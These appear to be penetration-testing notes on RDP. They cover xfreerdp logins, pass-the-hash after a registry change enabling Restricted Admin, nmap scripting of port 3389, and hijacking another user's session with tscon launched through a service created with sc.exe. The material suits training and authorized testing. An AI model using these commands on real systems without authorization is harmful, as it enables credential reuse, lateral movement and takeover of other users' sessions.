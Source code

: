 ## delete


# Interacting
## Connecting
```bash
# ClearPassword
$ xfreerdp /v:<target-IP> /d:<domain> /u:<username> /p:<password>

# PTH
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
$ xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
```

# Footprinting
## Nmap
```bash
$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```

# RDP Session Hijacking
```
PS > query user
```
As shown in the example below, we are logged in as the user juurena (UserID = 2) who has Administrator privileges. Our goal is to hijack the user lewen (User ID = 4), who is also logged in via RDP.

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:

```
> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.

```
> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

To run the command, we can start the sessionhijack service :

```
> net start sessionhijack
```

`Note: This method no longer works on Server 2019.`
